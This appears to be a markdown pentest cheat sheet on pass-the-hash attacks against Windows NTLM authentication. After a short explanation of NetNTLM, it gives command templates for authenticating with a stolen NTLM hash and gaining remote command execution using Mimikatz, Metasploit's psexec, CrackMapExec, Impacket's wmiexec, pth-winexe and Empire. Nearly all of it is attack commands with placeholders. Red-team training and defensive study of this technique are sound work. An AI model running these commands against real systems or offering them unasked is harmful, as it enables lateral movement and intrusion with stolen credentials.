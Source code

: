 # How-To Pass-the-hash (PtH)
NetNTLM is a Windows challenge-response protocol that is mainly used where Kerberos is not supported. In NetNTLM, the server sends to the client a random 8-byte nonce as a challenge, and the client calculates a response that processes the challenge with the NTLM hash as the key, which is the MD4 hash of the user's password. Because the NTLM hash is the key to calculate the response, the victim's cleartext password is not required to authenticate, hence retrieving the NTLM hash is almost equivalent to stealing a plain text password.

You can use many many tools to perform PtH. The only required things are:
* A username (and its domain if not local...)
* Its NTLM hash

## Mimikatz
### Original binary
```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM>
```

### Powershell version
```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<NTLM> /run:powershell.exe"'
```

## Metasploit
1. Testing credentials
```
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > set RHOSTS <hosts>
RHOSTS => <host>
msf auxiliary(smb_login) > set SMBDomain <domain>
SMBDOMAIN => <domain>
msf auxiliary(smb_login) > set SMBUser <user>
SMBUser => <user>
msf auxiliary(smb_login) > set SMBPass <LM>:<NTLM>
SMBPass => <LM>:<NTLM>
msf auxiliary(smb_login) > run
```
> If you were using msfconsole and stored your network scans within its database you could use
**services -p 445 -R** to to populate RHOSTS with every host with 445 open

2. Exploit
```
msf > use windows/smb/psexec
msf exploit(psexec) > set RHOST <host>
RHOST => <host>
msf exploit(psexec) > set SMBUser <username>
SMBUser => <username>
msf exploit(psexec) > set SMBPass <LM>:<NTLM>
SMBPass => <LM>:<NTLM>
msf exploit(psexec) > exploit
```
> You could also use **auxiliary/admin/smb/psexec_command**

## CrackMapExec
https://github.com/byt3bl33d3r/CrackMapExec
```
#~ crackmapexec <proto> <target(s)> [-d <domain>] -u <user> -H <NTLM>
```
> CME for Windows: https://github.com/maaaaz/CrackMapExecWin/wiki/How-to-compile-CrackMapExec-for-Windows

## Impacket
https://github.com/CoreSecurity/impacket/
* psexec.py
* smbexec.py
* wmiexec.py
* atexec.py
* dcomexec.py
* etc.

Example:
```
python wmiexec.py -hashes :<ntlm> <user>@<server_fqdn>
```
> Impacket examples for Windows: https://github.com/maaaaz/impacket-examples-windows

## pth-toolkit
* pth-net
* pth-rpcclient
* pth-smbclient
* pth-smbget
* pth-winexe
* pth-wmic
* pth-wmis
> pth-* uses the format <domain>/<user>%h<LM>:<NTLM>

Example:
```
pth-winexe -U <domain>/<user>%h<LM>:<NTLM> //<server_fqdn> cmd.exe
```

## Empire
```
(Empire: <agent_name>) > pth <credID>
```
> Pass-the-hash through Invoke-Mimikaz's sekurlsa::pth function
